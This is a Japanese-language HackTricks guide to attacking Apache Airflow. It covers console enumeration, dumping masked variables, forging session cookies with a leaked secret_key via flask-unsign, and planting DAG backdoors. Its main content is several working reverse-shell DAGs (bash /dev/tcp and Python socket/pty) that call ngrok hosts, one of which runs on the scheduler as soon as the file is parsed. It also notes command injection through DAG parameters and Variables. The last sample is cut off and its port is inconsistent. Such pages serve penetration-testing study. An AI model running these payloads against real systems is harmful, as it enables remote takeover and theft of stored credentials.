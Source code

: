 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### 基本情報

[**Apache Airflow**](https://airflow.apache.org) は、**データパイプラインやワークフローのオーケストレーションとスケジューリングのためのプラットフォーム**として機能します。データパイプラインの文脈における「オーケストレーション」という用語は、さまざまなソースからの複雑なデータワークフローを整理、調整、管理するプロセスを指します。これらのオーケストレーションされたデータパイプラインの主な目的は、処理された消費可能なデータセットを提供することです。これらのデータセットは、ビジネスインテリジェンスツール、データサイエンス、機械学習モデルなど、さまざまなアプリケーションで広く利用されており、ビッグデータアプリケーションの機能にとって基盤となっています。

基本的に、Apache Airflowは、**何かが起こったときにコードの実行をスケジュールすることを可能にします**（イベント、cron）。

### ローカルラボ

#### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) からの**docker-compose設定ファイルを使用して、完全なapache airflow docker環境を起動できます**。（MacOSを使用している場合は、docker VMに少なくとも6GBのRAMを割り当てることを確認してください）。

#### Minikube

**apache airflowを実行する簡単な方法の一つは、**minikube**を使用して実行することです**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflowの設定

Airflowはその設定に**機密情報**を保存する可能性があり、または弱い設定が存在することがあります：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflowを攻撃する前に、**権限の仕組み**を理解する必要があります：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### 攻撃

#### ウェブコンソールの列挙

**ウェブコンソールにアクセス**できる場合、以下の情報の一部またはすべてにアクセスできる可能性があります：

* **変数**（カスタムの機密情報がここに保存される可能性があります）
* **接続**（カスタムの機密情報がここに保存される可能性があります）
* `http://<airflow>/connection/list/`でアクセス
* [**設定**](./#airflow-configuration)（**`secret_key`**やパスワードなどの機密情報がここに保存される可能性があります）
* **ユーザーと役割のリスト**
* **各DAGのコード**（興味深い情報が含まれている可能性があります）

#### 変数の値を取得

変数はAirflowに保存され、**DAG**がその値に**アクセス**できるようになります。他のプラットフォームの秘密に似ています。**十分な権限**があれば、`http://<airflow>/variable/list/`のGUIでアクセスできます。\
AirflowはデフォルトでGUIに変数の値を表示しますが、[**これ**](https://marclamberti.com/blog/variables-with-apache-airflow/)によると、**値**が**アスタリスク**として表示される**変数のリスト**を設定することが可能です。

![](<../../.gitbook/assets/image (164).png>)

しかし、これらの**値**は**CLI**（DBアクセスが必要）、**任意のDAG**の実行、**API**を介して変数エンドポイントにアクセスすること（APIは有効化する必要があります）、さらには**GUI自体**からも**取得**できます！\
GUIからこれらの値にアクセスするには、**アクセスしたい変数を選択**し、**アクション -> エクスポート**をクリックします。\
別の方法は、**検索フィルタリング**を使用して**隠された値**に対して**ブルートフォース**を行い、それを取得することです：

![](<../../.gitbook/assets/image (152).png>)

#### 権限昇格

**`expose_config`**設定が**True**に設定されている場合、**ユーザー役割**以上の権限を持つ者は**ウェブで設定を読み取る**ことができます。この設定には**`secret_key`**が含まれており、これにより有効なユーザーは**他のユーザーアカウントを偽装するための独自の署名付きクッキーを作成**できます。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG バックドア (Airflow ワーカーにおける RCE)

もし **DAG が保存されている場所に書き込み権限** がある場合、**逆シェルを送信する DAG を作成する** だけです。\
この逆シェルは **airflow worker コンテナ内** で実行されることに注意してください：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG バックドア (Airflow スケジューラにおける RCE)

コードの**ルートで実行されるように設定**した場合、執筆時点では、それは**DAG のフォルダ内に置いてから数秒後にスケジューラによって実行されます**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAGの作成

もしあなたが**DAGクラスター内のマシンを侵害することに成功すれば**、`dags/`フォルダーに新しい**DAGスクリプト**を作成でき、それらは**DAGクラスター内の他のマシンに複製されます**。

#### DAGコードインジェクション

GUIからDAGを実行すると、**引数**を渡すことができます。\
したがって、DAGが適切にコーディングされていない場合、**コマンドインジェクションに対して脆弱である可能性があります。**\
これがこのCVEで起こったことです: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG内のコマンドインジェクションを探し始めるために知っておくべきこと**は、**パラメータ**が**`dag_run.conf.get("param_name")`**というコードで**アクセスされる**ということです。

さらに、同じ脆弱性が**変数**にも発生する可能性があります（十分な権限があれば、GUIで**変数の値を制御できる**ことに注意してください）。変数は**次のようにアクセスされます**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
もしそれらが例えばbashコマンドの中で使用されると、コマンドインジェクションを実行することができます。

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。**

</details>
{% endhint %}

